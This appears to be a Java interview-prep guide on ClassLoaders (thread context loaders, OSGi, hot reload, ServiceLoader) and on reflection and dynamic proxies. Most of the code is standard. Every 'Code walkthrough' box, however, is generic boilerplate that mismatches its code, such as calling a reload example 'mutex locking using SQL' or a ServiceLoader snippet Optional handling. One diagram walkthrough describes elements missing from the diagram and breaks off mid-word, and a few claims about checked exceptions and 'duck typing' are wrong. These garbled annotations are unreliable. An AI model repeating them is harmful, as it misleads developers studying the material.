// Problem: JDK classes loading user code
// Example: JAXB, JDBC, ServiceLoader need to find implementations
// loaded by the application ClassLoader, not Bootstrap
// But: they run in JDK code where the ClassLoader is Bootstrap

// Solution: Thread Context ClassLoader (TCCL)
// Container sets TCCL to the application ClassLoader:
Thread.currentThread().setContextClassLoader(webAppClassLoader);

// JDK service discovery (JDBC, JAXB) uses TCCL:
// ServiceLoader.load(Driver.class) internally uses:
// Thread.currentThread().getContextClassLoader()
// This finds the application's JDBC driver even though
// ServiceLoader is in the JDK (Bootstrap ClassLoader)

// ServiceLoader pattern:
ClassLoader tccl = Thread.currentThread().getContextClassLoader();
ServiceLoader<Driver> drivers = ServiceLoader.load(Driver.class, tccl);
// Discovers all META-INF/services/java.sql.Driver files in app classpath

// Best practice for library code (code that runs as a library in a container):
ClassLoader original = Thread.currentThread().getContextClassLoader();
try {
    // Set TCCL for the operation that needs to discover user classes:
    Thread.currentThread().setContextClassLoader(
        userCode.getClass().getClassLoader());
    ServiceLoader.load(MyExtensionInterface.class).iterator().next();
} finally {
    Thread.currentThread().setContextClassLoader(original); // restore!
}
```

> **Code walkthrough:** This started a thread named [xyz] but has failed to stop it" example demonstrates exception handling using container. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* The Thread Context ClassLoader solves
the "inverse delegation" problem. Normally delegation goes UP (child asks
parent). But JDK utility classes (JAXB, ServiceLoader, JDBC DriverManager)
run with Bootstrap ClassLoader but need to find APPLICATION classes (drivers,
providers). TCCL is set by the container to bridge this gap. Tomcat sets
TCCL to the WebappClassLoader for each request thread. Spring Boot sets
TCCL to the application ClassLoader at startup. Understanding TCCL explains
why changing thread pools can break JDBC connections or service discovery:
if a background thread pool inherits the wrong TCCL, it can't find the
right service providers.

---

**Q9 (OSGi isolation model): How does OSGi use ClassLoaders for isolation?**

A: OSGi (Open Services Gateway initiative) uses a ClassLoader PER BUNDLE.
Each bundle controls exactly what packages it imports from other bundles
and what packages it exports.

```
OSGi ClassLoader model:

  Bundle A (com.example.api)         Bundle B (com.example.impl)
  ClassLoader A                      ClassLoader B
  Exports: com.example.api           Imports: com.example.api
  Imports: java.util (from JDK)      Exports: nothing
           com.some.dependency
  
  Bundle A CL:
    - java.lang.*         -> Bootstrap (delegation)
    - java.util.*         -> Bootstrap (delegation)
    - com.example.api.*   -> Load myself (I own this package)
    - com.some.dep.*      -> Load from Bundle C (wired at runtime)
    - com.example.impl.*  -> NOT VISIBLE (not imported!)

  Bundle B CL:
    - com.example.api.*   -> Load from Bundle A (wired, not my copy)
    - com.example.impl.*  -> Load myself
    - com.example.api.User -> SAME class object as Bundle A's User
      (because both get it from Bundle A's ClassLoader)

Key rule: if A and B both import com.example.api from Bundle API,
they share the SAME Class objects -> no ClassCastException!
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* OSGi's "wired imports" model solves the
ClassCastException problem through controlled sharing. Only ONE bundle "owns"
each package. All bundles that import it get the same class from the owning
bundle's ClassLoader. This is fundamentally different from traditional
ClassLoader hierarchies: it's a directed graph of ClassLoader relationships,
not a tree. Each OSGi ClassLoader's `loadClass()` consults the bundle wiring
instead of just the parent. This enables true semantic versioning:
Bundle A can import `com.example.api` version 1.x and Bundle B can
import `com.example.api` version 2.x simultaneously - different ClassLoaders,
different class objects, no conflict.

---

**Q10 (Hot class reloading): How does hot class reloading work?**

A:
```java
// The challenge: JVM class is immutable once defined
// "Reload" = load a NEW version of the class with a NEW ClassLoader
// Old instances still use the old class object
// New instances use the new class object

// Basic hot reload pattern:
class HotReloadService {
    private volatile ClassLoader currentCL;
    private final Path classDir;

    // Call this when .class files change:
    synchronized void reload() throws Exception {
        // Close old ClassLoader to release file handles:
        if (currentCL instanceof Closeable c) {
            try { c.close(); } catch (IOException ignored) {}
        }
        // Create fresh ClassLoader pointing to updated .class files:
        currentCL = new URLClassLoader(
            new URL[]{ classDir.toUri().toURL() },
            HotReloadService.class.getClassLoader()); // parent
    }

    <T> T getBean(String className, Class<T> iface) throws Exception {
        ClassLoader cl = currentCL; // snapshot (volatile, stable reference)
        return iface.cast(cl.loadClass(className)
            .getDeclaredConstructor().newInstance());
    }
}

// LIMITATION: existing instances are still "old version"
// If you have: OldService ref = getBean("OldService", OldService.class)
// After reload: ref still points to old version
// Must get a fresh instance: getBean("OldService", OldService.class)

// JVM HotSwap (JDWP): limited bytecode replacement
// Supported: method body changes
// NOT supported: adding/removing fields, changing method signatures
// How Spring DevTools works: file watch -> full context restart (new CL)
// JRebel: uses Java agent to instrument class objects directly
//         supports field/method addition via bytecode hacks
```

> **Code walkthrough:** This Unknown example demonstrates mutex locking using SQL. **KEY MECHANISM:** the JVM acquires the intrinsic lock on the object monitor before entering the block. **WHY IT MATTERS:** a thread holding the lock blocks all other threads - a bottleneck at scale. **TAKEAWAY: prefer ReentrantLock or ConcurrentHashMap over synchronized for hot paths.**

*What separates good from great:* Hot reload in production (not just development)
is the foundation of enterprise Java hot-deploy. Application servers (JBoss/WildFly,
WebLogic, Tomcat) support it via war/ear redeploy which is exactly this pattern:
new ClassLoader per web application, fresh deployment without JVM restart.
The contract: all INTERFACE types must be loaded by a shared (parent) ClassLoader.
If `UserService` interface is in the webapp ClassLoader: every redeploy creates
a new `UserService` class, breaking cross-request type compatibility. The solution:
put shared APIs in a parent ClassLoader (Tomcat shared lib), put implementations
in the webapp ClassLoader. This mirrors OSGi's wiring model.

---

**Q11 (ClassCastException from CL): How do you diagnose ClassCastException
caused by ClassLoader issues?**

A:
```java
// Diagnostic: the exception message reveals the ClassLoader names (Java 9+)
// "com.example.Foo cannot be cast to com.example.Foo
//  (com.example.Foo is in unnamed module of loader 'app';
//   com.example.Foo is in unnamed module of loader 'my-custom-cl')"
// Same class name, two different loaders = CL mismatch

// Diagnostic code:
Object suspiciousObject = getFromSomewhere();
System.out.println("Object class: " + suspiciousObject.getClass());
System.out.println("Object CL: " + suspiciousObject.getClass().getClassLoader());
System.out.println("Target CL: " + com.example.Foo.class.getClassLoader());
System.out.println("Same? " +
    (suspiciousObject.getClass().getClassLoader() ==
     com.example.Foo.class.getClassLoader()));

// Fix strategies:
// 1. Load interface from shared parent CL:
//    Put IFoo in parent CL's classpath; Foo in child
//    Cast to IFoo (not Foo) -> works
//
// 2. Use reflection to call methods (no cast needed):
//    method.invoke(suspiciousObject, args) - no cast
//
// 3. Serialize/deserialize through a neutral format:
//    Object -> JSON -> com.example.Foo (using the right CL's type)
//
// 4. Ensure both sides use the same ClassLoader for shared types
```

> **Code walkthrough:** This Unknown example demonstrates contract definition using interface. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* The interface-based solution is the
architectural recommendation: define APIs (interfaces) in a parent ClassLoader,
implementations in child ClassLoaders. Callers code against the interface.
This is the plugin pattern, the service pattern, and the OSGi export pattern.
The Java SPI (ServiceLoader) enforces this: the service interface is in the
JDK (Bootstrap) or application (App CL), the provider is discovered via
the implementation's ClassLoader. Mixing up these boundaries is the root
cause of ClassCastException in multi-ClassLoader environments.

---

**Q12 (Service loader pattern): How does ServiceLoader use ClassLoaders?**

A:
```java
// Java SPI (Service Provider Interface):
// Defines: com.example.StorageBackend (interface in your module)
// Implementations: S3Backend, LocalFileBackend, etc. (in plugins)

// Provider registration:
// META-INF/services/com.example.StorageBackend
// (file content = fully qualified implementation class names)
// com.example.plugins.S3Backend
// com.example.plugins.LocalFileBackend

// Module-info.java (Java 9+):
// module com.example.s3backend {
//     provides com.example.StorageBackend with com.example.plugins.S3Backend;
// }

// Discovery:
ServiceLoader<StorageBackend> loader =
    ServiceLoader.load(StorageBackend.class); // uses TCCL
// OR: explicit ClassLoader
ServiceLoader<StorageBackend> loader =
    ServiceLoader.load(StorageBackend.class, pluginClassLoader);

for (StorageBackend backend : loader) {
    System.out.println("Found: " + backend.getClass().getName());
}

// Lazy loading (Java 9+):
Optional<StorageBackend> first = ServiceLoader
    .load(StorageBackend.class)
    .findFirst();

// How it works:
// 1. Look for META-INF/services/<interface-name> in all JARs on classpath
//    (from the specified or context ClassLoader)
// 2. Read each class name in the file
// 3. Load the class using the ClassLoader
// 4. Instantiate via no-arg constructor
// 5. Return as iterator

// ClassLoader must be able to load the provider class:
// If TCCL doesn't have access to S3Backend.jar -> ClassNotFoundException -> skipped
```

> **Code walkthrough:** This Unknown example demonstrates null-safe value wrapping using interface. **KEY MECHANISM:** Optional.of() throws NPE on null; Optional.ofNullable() wraps null safely. **WHY IT MATTERS:** calling get() without isPresent() check produces NoSuchElementException. **TAKEAWAY: prefer orElseThrow() with a meaningful message over bare get().**

*What separates good from great:* ServiceLoader is Java's built-in plugin
discovery mechanism. JDBC drivers, JCE providers, JAX-RS implementations,
and many JDK extensions use it. The ClassLoader selection is critical:
`ServiceLoader.load(iface)` uses `Thread.currentThread().getContextClassLoader()`.
In a multi-ClassLoader environment (OSGi, Tomcat): the TCCL determines which
plugins are "visible." If a background thread has a wrong TCCL (e.g., system CL
instead of webapp CL), ServiceLoader won't find plugins in the webapp's JAR files.
This is a common production issue: scheduled tasks or async processors failing
to find JPA providers, serializers, or other SPI-based services because their
thread's TCCL is incorrect.

---

### ⚖️ Comparison Table

| ClassLoader Type | Scope | Parent | Use Case |
|---|---|---|---|
| Bootstrap | JDK core | None (native) | java.lang, java.util |
| Platform (Java 9+) | JDK modules | Bootstrap | java.sql, java.crypto |
| Application | Classpath | Platform | Your application code |
| URLClassLoader | Custom URLs | Any | Plugin loading, hot reload |
| Custom | Anywhere | Any | Isolation, transformation |
| OSGi Bundle CL | Bundle packages | Varies (wired) | Plugin isolation |

---

### 🏛️ System Design

**Design: multi-tenant plugin system using ClassLoader isolation**

```
Request: tenant-123 -> plugin-x.doWork()

[Tenant Request Router]
       |
       v
[PluginRegistry]
  tenant -> pluginId -> ClassLoader
       |
       v
[Plugin ClassLoader (per plugin JAR)]
   Parent: SharedAPI ClassLoader
   Loads: plugin implementation classes
   Isolated from: other plugins
       |
       v
[Bytecode Transformer] (optional AOP)
   Instruments: audit, metrics, security
       |
       v
[Plugin Instance]
  runs in isolated ClassLoader context
       |
  (results back through shared interface types)
       v
[Shared API ClassLoader (parent)]
  Loads: Plugin interface, domain types
  Shared across all tenants/plugins

ClassLoader lifecycle:
  Load:   new URLClassLoader(pluginJars, sharedApiCL)
  Use:    instantiate plugin, call methods via shared interface
  Unload: remove from registry + ucl.close()
          -> eligible for GC (if no leaks)
```



> **Diagram walkthrough:** The hierarchy shows Bootstrap at the bottom
> (foundation), SharedAPI ClassLoader in the middle (common types), and
> per-plugin ClassLoaders at the top (isolated implementations). Plugin-X and
> Plugin-Y are siblings - they have the same parent (SharedAPI CL) but no
> visibility into each other's classes. The BytecodeTransformer intercepts
> class loading in each plugin's ClassLoader to add cross-cutting concerns.
> Results flow back through the shared interface types (loaded by SharedAPI CL),
> preventing ClassCastExceptions. The router maintains the mapping of plugin
> ID to ClassLoader, handling lifecycle (load on first request, close on undeplo

---

### 📊 Diagram

**Parent delegation call sequence:**

```
loadClass("com.example.Foo") on App CL:

App CL                Platform CL          Bootstrap CL
   |                       |                     |
   |--findLoadedClass()     |                     |
   |  (not found)          |                     |
   |                       |                     |
   |--parent.loadClass()--->|                     |
   |                       |--findLoadedClass()   |
   |                       |  (not found)        |
   |                       |                     |
   |                       |--parent.loadClass()-->|
   |                       |                     |--findBootstrapClass()
   |                       |                     |  "com.example.Foo"
   |                       |                     |  (not in JDK!)
   |                       |<--ClassNotFoundException
   |                       |--findClass()
   |                       |  "com.example.Foo" (not in JDK modules)
   |<--ClassNotFoundException
   |--findClass()
   |  "com.example.Foo" -> found on classpath!
   |--defineClass(bytes) -> Class<Foo>
   |--return Class<Foo>
```



> **Diagram walkthrough:** The sequence follows the delegation chain upward
> (to Bootstrap) before searching locally. Bootstrap rejects the class because
> `com.example.Foo` is not in the JDK. Platform CL rejects it because it's
> not in any JDK module. Application CL then searches the classpath and finds
> it. This guarantees: JDK classes always load from the JDK (Bootstrap can't
> be "shadowed"). A malicious or buggy library cannot substitute its own
> `java.lang.String` by placing it on the classpath. Only non-JDK classes
> are loaded from the application classpath.

---


---

# Java Core - L4 Reflection

## Java Reflection and Dynamic Proxies

---

### 🎯 Model Answer

**30 seconds:**
> Reflection allows a Java program to inspect and modify its own structure
> at runtime: discover classes, fields, methods; invoke methods dynamically;
> create instances without knowing the type at compile time. Dynamic proxies
> (`java.lang.reflect.Proxy`) create objects that implement interfaces
> dynamically, intercepting method calls via an `InvocationHandler`. Cost:
> reflective calls bypass JIT inlining (15-100x slower than direct calls),
> bypass access control (`setAccessible(true)`), and reduce type safety.
> Use cases: frameworks (Spring DI, JUnit, Hibernate), serialization, plugin
> systems, testing tools.

**3 minutes (Senior):**
> Reflection API: `Class<?> clazz = Class.forName("com.example.Foo")`.
> `getDeclaredMethods()` returns all methods (including private).
> `getMethods()` returns all public methods (including inherited).
> `setAccessible(true)` bypasses Java's access control for fields and methods.
> In Java 9+: modules restrict cross-module `setAccessible` - need
> `--add-opens module/package=target` or the module must explicitly
> open the package.
>
> Dynamic proxies: `Proxy.newProxyInstance(classLoader, interfaces, handler)`.
> The proxy implements ALL listed interfaces. Every method call goes through
> `InvocationHandler.invoke(proxy, method, args)`. Spring AOP uses CGLIB
> (class proxy, works without interface) for Spring beans. JDK proxy requires
> an interface. Hibernate uses Byte Buddy (bytecode generation) for lazy-loaded
> entity proxies.
>
> Method handles (Java 7, MethodHandles API): lower-level than reflection,
> faster (JIT can inline them), safer (checked at creation time).
> `invokedynamic` bytecode instruction (used for lambdas) uses MethodHandle
> under the hood. For performance-critical dynamic dispatch: prefer
> `MethodHandle` over `Method.invoke()`.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Reflection - let me cover Class/Method/Field APIs,
setAccessible security, dynamic proxies with InvocationHandler, performance
impact, MethodHandles, and Java 9 module restrictions."

**(2) First principles:** "Reflection is the runtime equivalent of IDE
code completion: the program reads its own bytecode metadata at runtime.
Dynamic proxy creates a fake implementation: every call goes through a
central dispatcher instead of real code."

**(3) Bridge:** "Reflection is like a police detective examining a crime
scene using latent evidence. Dynamic proxies are like phone call forwarding:
every call to 'UserService' gets routed through a central dispatcher
(InvocationHandler) before reaching the real service."

---


### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| Reflection API overview | 2 minutes |
| getDeclaredX vs getX | 90 seconds |
| setAccessible and modules | 2 minutes |
| Dynamic proxy mechanics | 3 minutes |
| CGLIB vs JDK proxy | 2 minutes |
| InvocationTargetException | 2 minutes |
| MethodHandles performance | 2-3 minutes |
| Reflection caching | 2 minutes |
| Serialization and reflection | 2 minutes |
| GraalVM native image | 2-3 minutes |
| Spring AOP proxy model | 2-3 minutes |
| Security implications | 2 minutes |

---

**Q1 (Reflection API overview): What can Java reflection do?**

A:
1. **Inspect types:** get class name, superclass, interfaces, modifiers, annotations
2. **Discover members:** list fields, methods, constructors
3. **Read/write fields:** including private (with `setAccessible`)
4. **Invoke methods:** including private (with `setAccessible`)
5. **Create instances:** including no-arg and parameterized constructors
6. **Operate generics:** `getGenericType()` returns `ParameterizedType`
7. **Read annotations:** `getAnnotation(class)`, `getAnnotationsByType(class)`
8. **Array operations:** `Array.newInstance()`, `Array.get()`

```java
// Inspect:
Class<?> c = SomeClass.class;
c.getName();           // fully qualified: "com.example.SomeClass"
c.getSimpleName();     // "SomeClass"
c.getSuperclass();     // superclass Class<?>
c.getInterfaces();     // implemented interfaces
c.getModifiers();      // int: Modifier.isPublic(c.getModifiers())
c.getAnnotations();    // runtime annotations
c.isInterface();       // boolean
c.isEnum();            // boolean
c.isRecord();          // Java 16+: boolean

// Generic field type inspection:
Field f = MyClass.class.getDeclaredField("names"); // List<String> names
Type type = f.getGenericType();
if (type instanceof ParameterizedType pt) {
    Type arg = pt.getActualTypeArguments()[0]; // String.class
}
```

> **Code walkthrough:** This Unknown example demonstrates contract definition using generic type. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* Generic type inspection via `getGenericType()`
is what allows frameworks like Gson, Jackson, and Hibernate to understand
`List<String>` vs `List<Integer>`. Raw type erasure removes generic info
at runtime FOR VARIABLES, but field/method signatures retain it in bytecode.
This is why `field.getGenericType()` returns the parameterized type even
though type erasure applies to runtime instances. Jackson uses this to
know the correct type when deserializing `List<User>` (passed as
`TypeReference<List<User>>`).

---

**Q2 (getDeclaredX vs getX): What is the difference between getDeclaredFields()
and getFields()?**

A:

| Method | Scope | Includes inherited | Includes private |
|---|---|---|---|
| `getDeclaredFields()` | Current class only | No | Yes |
| `getFields()` | Current + all ancestors | Yes | No (public only) |
| `getDeclaredMethods()` | Current class only | No | Yes |
| `getMethods()` | Current + all ancestors | Yes | No (public only) |
| `getDeclaredConstructors()` | Current class only | - | Yes |
| `getConstructors()` | Current class only | - | No (public only) |

```java
class Animal {
    public String name;
    protected int age;
    private String secret;
    public void breathe() {}
}

class Dog extends Animal {
    public String breed;
    private String tag;
    public void bark() {}
}

Dog d = new Dog();
// getDeclaredFields: Dog's own fields only
Field[] df = Dog.class.getDeclaredFields(); // [breed, tag] - no Animal fields!

// getFields: all public, from Dog + Animal + Object
Field[] pf = Dog.class.getFields(); // [breed, name] - only public!

// getDeclaredMethods: Dog's own methods only
Method[] dm = Dog.class.getDeclaredMethods(); // [bark] - no breathe!

// getFields does NOT include private, getDeclaredFields includes ALL:
for (Field f : Dog.class.getDeclaredFields()) {
    f.setAccessible(true); // unlock private
    System.out.println(f.getName() + " = " + f.get(d));
}

// To get ALL fields including inherited (including private):
List<Field> allFields = new ArrayList<>();
Class<?> c = Dog.class;
while (c != null && c != Object.class) {
    Collections.addAll(allFields, c.getDeclaredFields());
    c = c.getSuperclass(); // walk hierarchy
}
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Walking the class hierarchy with
`getSuperclass()` is required for frameworks that serialize/deserialize
objects with inheritance (Jackson, Hibernate). Jackson by default includes
only the declared fields of the target class; use `@JsonIncludeProperties`
or the visibility settings to control inherited field inclusion. Hibernate
entity scanning walks the entire hierarchy to find all `@Column` annotations
including those in `@MappedSuperclass` parents.

---

**Q3 (setAccessible and modules): How does Java 9 module system affect reflection?**

A: Java 9 introduced the module system (JPMS). By default, modules don't
allow deep reflective access (reading private fields/methods) to their
internal packages.

```
// Module access levels:
// reads:     compile-time, can use public types in exported packages
// exports:   makes public types accessible to specific modules
// opens:     allows REFLECTIVE access to all types (including private)
//            without "opens": setAccessible(true) throws InaccessibleObjectException

// JDK module: java.base module does NOT open java.lang by default
// Attempting setAccessible on java.lang.String field: FAILS

// JVM flags to re-open for legacy code:
// --add-opens java.base/java.lang=ALL-UNNAMED
// --add-opens java.base/java.util=ALL-UNNAMED
// This is how Spring/Hibernate run on Java 17+

// In module-info.java:
module my.module {
    opens com.example.internal; // ALL other modules can reflect into this package
    opens com.example.model to com.jackson; // only com.jackson can reflect
}

// Checking if module opens:
Module module = SomeClass.class.getModule();
boolean isOpen = module.isOpen("com.example.internal",
    MyReflectionTool.class.getModule());
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The module system breaking reflection
was intentional - it was the key mechanism for "encapsulate JDK internals"
(Project Jigsaw). Before Java 9: `sun.misc.Unsafe`, internal GC APIs,
`URLClassLoader` internals were accessible via `setAccessible`. After
Java 9: accessing JDK internals requires explicit `--add-opens` flags.
Real-world impact: Spring Boot apps running on Java 17 typically need
`--add-opens` flags in their startup scripts. GraalVM native image doesn't
support dynamic `setAccessible` at all: all reflective accesses must be
declared in `reflect-config.json` at build time.

---

**Q4 (Dynamic proxy mechanics): How does JDK dynamic proxy work internally?**

A: `Proxy.newProxyInstance()` creates a new class at runtime (stored in the
classloader's namespace). This synthetic class:
1. Extends `java.lang.reflect.Proxy`
2. Implements all specified interfaces
3. For every method call: delegates to `InvocationHandler.invoke()`

```java
// JDK proxy requires an interface:
interface Greeter { String greet(String name); }

// Create proxy:
Greeter proxy = (Greeter) Proxy.newProxyInstance(
    Greeter.class.getClassLoader(),
    new Class<?>[]{ Greeter.class },
    new InvocationHandler() {
        @Override
        public Object invoke(Object proxyObj, Method method, Object[] args)
                throws Throwable {
            // method: the Method object for greet(String)
            // args: ["World"]
            String name = (String) args[0];

            // Delegate to real impl? (need to inject it):
            // return realImpl.greet(name);

            // Or handle directly:
            return "Hello, " + name + "!";
        }
    });

String result = proxy.greet("World"); // "Hello, World!"

// The generated proxy class (conceptually):
// class $Proxy0 extends Proxy implements Greeter {
//     $Proxy0(InvocationHandler h) { super(h); }
//     public String greet(String name) {
//         return (String) h.invoke(this, greetMethod, new Object[]{name});
//     }
// }

// getProxyClass: get the class (useful for introspection)
Class<?> proxyClass = proxy.getClass();
System.out.println(Proxy.isProxyClass(proxyClass)); // true
System.out.println(Proxy.getInvocationHandler(proxy)); // the handler
```

> **Code walkthrough:** This Unknown example demonstrates contract definition using interface. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* The generated proxy class is cached:
calling `Proxy.newProxyInstance` with the same interfaces and classloader
returns instances of the SAME generated proxy class (just different
`InvocationHandler` instances). This means reflection on the proxy class
is fast after the first call (no re-generation). Spring's
`ProxyFactoryBean` uses this: one proxy class per service interface,
reused across all beans. The handler instance carries the per-bean state
(reference to target, interceptor chain, etc.).

---

**Q5 (CGLIB vs JDK proxy): When does Spring use CGLIB vs JDK proxy?**

A:

| Condition | Proxy Type | Mechanism |
|---|---|---|
| Bean implements interface(s) | JDK proxy (default) | `Proxy.newProxyInstance()` |
| Bean is a concrete class (no interface) | CGLIB | Bytecode subclass generation |
| `@EnableAspectJAutoProxy(proxyTargetClass=true)` | CGLIB | Forces CGLIB for all |
| Spring Boot (default in 2.x+) | CGLIB | proxyTargetClass=true by default |

```java
// JDK Proxy (interface required):
@Service
class UserServiceImpl implements UserService {
    // Spring wraps with JDK proxy implementing UserService interface
}
// The Spring bean is: Proxy$UserService -> InvocationHandler -> UserServiceImpl

// CGLIB (no interface, or forced):
@Service
class OrderService { // no interface
    @Transactional
    public void placeOrder(Order o) { /* ... */ }
}
// Spring wraps with: OrderService$EnhancerByCGLIB -> OrderService
// CGLIB creates a SUBCLASS, overrides all non-final methods

// IMPORTANT: CGLIB can't proxy:
// 1. final classes (can't subclass)
// 2. final methods (can't override)
// 3. private methods (can't override)
@Service
class ProblemService {
    @Transactional
    public final void doSomething() { } // @Transactional IGNORED! final!
}
// Spring silently skips proxy for final methods -> no transaction!
// Diagnosis: enable Spring transaction logging, check if transaction active

// Spring Boot 2.x default: CGLIB (proxyTargetClass=true)
// Reason: avoids the "injecting by concrete type" issues with JDK proxies
// @Autowired UserServiceImpl impl; // fails with JDK proxy (cast fails!)
// @Autowired UserService service;  // works with both proxy types
```

> **Code walkthrough:** This Unknown example demonstrates Spring declarative transaction using @Transactional. **KEY MECHANISM:** Spring wraps the method in a proxy that begins/commits a DB transaction. **WHY IT MATTERS:** calling @Transactional from the same class bypasses the proxy - no transaction. **TAKEAWAY: never self-invoke @Transactional methods; inject the bean instead.**

*What separates good from great:* Spring Boot's switch to CGLIB by default
(version 2.0) resolved a long-standing friction: `@Autowired UserServiceImpl`
failed with JDK proxy (the bean is a `$Proxy`, not `UserServiceImpl`).
With CGLIB: the proxy IS-A `UserServiceImpl` (subclass), so concrete-type
injection works. The trade-off: CGLIB generates subclasses, which means
the target class must have a no-arg constructor accessible to the subclass.
With Java 17+ modules: CGLIB subclassing also has module restrictions.
Spring's solution: compile-time component scanning with explicit proxy
configuration for GraalVM native image.

---

**Q6 (InvocationTargetException): Why does InvocationTargetException exist?**

A: `method.invoke()` declares: `throws IllegalAccessException, InvocationTargetException`.
It cannot declare the method's own checked exceptions (unknown at `invoke()`
time). So all exceptions thrown by the invoked method are wrapped in
`InvocationTargetException`. The real exception is always `e.getCause()`.

```java
// Correct exception handling for Method.invoke():
public Object safeInvoke(Method method, Object target, Object... args) {
    try {
        return method.invoke(target, args);
    } catch (IllegalAccessException e) {
        // Programming error: forgot setAccessible(true)
        throw new IllegalStateException(
            "Cannot access method: " + method.getName(), e);
    } catch (InvocationTargetException e) {
        Throwable cause = e.getCause(); // ALWAYS unwrap!
        // Re-throw as appropriate:
        if (cause instanceof RuntimeException re) throw re;
        if (cause instanceof Error err) throw err;
        // Checked exception from target method:
        throw new RuntimeException(
            "Checked exception from " + method.getName(), cause);
    }
}

// In InvocationHandler: throw the cause directly
@Override
public Object invoke(Object proxy, Method method, Object[] args)
        throws Throwable {
    try {
        return method.invoke(target, args);
    } catch (InvocationTargetException e) {
        throw e.getCause(); // declared as Throwable - safe to propagate
    }
}
// InvocationHandler.invoke() throws Throwable - allows propagating
// any exception type including checked exceptions from the target
```

> **Code walkthrough:** This Unknown example demonstrates exception handling using error handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* In `InvocationHandler.invoke()`, the
`throws Throwable` declaration allows re-throwing `e.getCause()` directly,
even if it's a checked exception not declared in the interface method.
The JVM's duck typing ensures the proxy propagates the exact exception
the caller expects (declared in the interface). This is the ONLY place
in Java where you can throw an arbitrary checked exception without
declaring it: through `e.getCause()` rethrow in an `InvocationHandler`.
Spring's proxy chain uses this mechanism to propagate checked exceptions
cleanly through multiple proxy layers.

---

**Q7 (MethodHandles performance): How do MethodHandles improve on reflection?**

A: `MethodHandles` (java.lang.invoke, Java 7) provide a typed, lower-level
mechanism for dynamic method invocation. Key advantages over reflection:
- JIT-inlineable (the JIT can inline `MethodHandle.invokeExact()` like a direct call)
- Checked at creation time (not at invocation time)
- Faster in tight loops after JIT warmup

```java
// Reflection: MethodHandle comparison
import java.lang.invoke.*;

MethodHandles.Lookup lookup = MethodHandles.lookup();

// Find method handle (checked at CREATION, not at invocation):
MethodHandle handle = lookup.findVirtual(
    String.class,
    "substring",
    MethodType.methodType(String.class, int.class)); // (return, params)

// Invoke:
String result = (String) handle.invoke("Hello World", 6); // "World"
// Or type-safe:
String result = (String) handle.invokeExact(
    (String)"Hello World", (int)6); // faster (no boxing)

// Micro-benchmark (approximate - JIT-dependent):
// Direct call:        ~1ns
// MethodHandle.invokeExact: ~2-5ns (JIT-warmed, may inline)
// Method.invoke():    ~20-50ns (JIT cannot inline through reflection)
// (All numbers approximate; actual depends on JIT optimization)

// VarHandle (Java 9): typed field access with compare-and-set
VarHandle vh = MethodHandles.lookup()
    .findVarHandle(Counter.class, "count", int.class);
int val = (int) vh.get(counter);
vh.set(counter, 42);
vh.compareAndSet(counter, 42, 100); // atomic CAS

// Compare with: Field.get()/set() - untyped, slower
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The JDK itself uses `invokedynamic` and
`MethodHandle` internally for lambda expressions (since Java 8). The
`LambdaMetafactory` creates `MethodHandle`-based functional interfaces
at first use. This is why lambda performance equals or exceeds anonymous
inner class performance after JIT warmup: the `MethodHandle` gets inlined.
For framework authors implementing their own "method invocation with interception":
prefer `MethodHandle.asCollector()` / `MethodHandles.lookup().findVirtual()`
over raw `Method.invoke()` for production-quality performance.

---

**Q8 (Reflection caching): How do you cache reflection objects for performance?**

A:
```java
// Reflection objects to cache (expensive to create):
// Class<?> - obtained once, reuse
// Method   - getDeclaredMethod() is moderately expensive
// Field    - getDeclaredField() is moderately expensive
// Constructor - getDeclaredConstructor() is expensive

// Cache pattern: per-class, application-scoped
class ReflectionCache {
    // ClassValue is a JVM-level per-class cache (no ConcurrentHashMap overhead)
    private static final ClassValue<Map<String, Method>> METHOD_CACHE =
        new ClassValue<>() {
            @Override
            protected Map<String, Method> computeValue(Class<?> c) {
                Map<String, Method> map = new HashMap<>();
                for (Method m : c.getDeclaredMethods()) {
                    m.setAccessible(true);
                    map.put(m.getName(), m); // simplified: ignores overloads
                }
                return Collections.unmodifiableMap(map);
            }
        };

    static Method findMethod(Class<?> clazz, String name) {
        return METHOD_CACHE.get(clazz).get(name);
    }
}

// ClassValue: lightweight, GC-friendly, no Map overhead
